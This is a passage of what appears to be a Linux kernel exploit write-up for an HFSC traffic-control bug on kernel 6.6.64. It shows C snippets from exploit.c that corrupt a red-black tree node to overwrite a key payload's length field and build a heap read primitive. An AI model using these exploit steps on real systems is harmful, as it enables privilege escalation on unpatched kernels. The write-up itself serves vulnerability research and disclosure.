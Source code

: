 ```c

			tmp = parent->rb_left;
			if (node == tmp) {
				/* Writeup note: Ignore code here */
			}

				/* Writeup note: Ignore code here */
			break;
		}
	}
}
```
- The primitive we need is `rb_set_parent_color(tmp, gparent, RB_BLACK)`.

```c
static inline void rb_set_parent_color(struct rb_node *rb,
				       struct rb_node *p, int color)
{
	rb->__rb_parent_color = (unsigned long)p | color;
}
```

- Because `rb->__rb_parent_color` is `&(hfsc_class_backed_by_user_key_payload_B->datalen)`, we overwrite `datalen` with a kernel address.
#### Describe implementation:
- Create `struct hfsc_class` object with `HFSC_FSC` flag. Let's call this class_D.
[[exploit.c#L1260]](../exploit/lts-6.6.64/exploit.c#L1260)
```c
struct tc_service_curve fsc_D = { .m1 = 1, .m2 = 1, .d = 0 };
create_hfsc_class(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_D,
	NULL,
	&fsc_D,
	NULL
);
```

- Create Qdisc with `pfifo_head_drop` as type and have `sch->limit == 0` and linked with `class_D`. We will reuse the logic bug here.
[[exploit.c#L1271]](../exploit/lts-6.6.64/exploit.c#L1271)
```c
struct tc_fifo_qopt pfifo_head_drop_qopt_C = { .limit = 0 };
create_pfifo_head_drop_qdisc(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_classid_D,
	heap_read_primitive->rb_tree_interface_qdisc_C_handle,
	&pfifo_head_drop_qopt_C
);
```
- Configure `Victim_Qdisc` to route enqueued packet to qdisc linked with `class_D`.
[[exploit.c#L1279]](../exploit/lts-6.6.64/exploit.c#L1279)
```c
change_hfsc_qdisc_route(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	TC_H_ROOT,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_D
);
```
- Enqueue packet to `Victim_Qdisc` to trigger the logic bug.